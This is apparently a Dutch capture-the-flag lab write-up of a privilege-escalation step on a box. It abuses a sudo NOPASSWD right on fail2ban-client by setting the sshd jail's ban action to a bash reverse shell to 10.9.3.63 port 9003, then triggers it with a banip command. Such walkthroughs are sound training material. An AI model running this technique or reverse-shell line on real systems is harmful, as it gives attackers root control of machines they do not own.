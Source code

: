 ## privesc

#### Sudo -l

*Schrijf commando*

```
sudo -l
```

```
Matching Defaults entries for asterisk on ip-10-10-249-94:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-249-94:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

```
**Onze gebruiker mag /usr/bin/fail2ban-client runnen**

```
/usr/bin/fail2ban-client
```

**optie om een custom ban commando uit te voeren:s**

```
get <JAIL> action <ACT> actionban        

gets the ban command for the action <ACT> for <JAIL>
```
**Commando aanmaken in fail2ban, zodat we met sudo rechten een reverse shell kunnen aanmaken**

```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/10.9.3.63/9003 0>&1'"
```

**Commando om deze service met sudo rechten uit te voeren die we zojuist hebben aangemaakt.**

```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.5
```

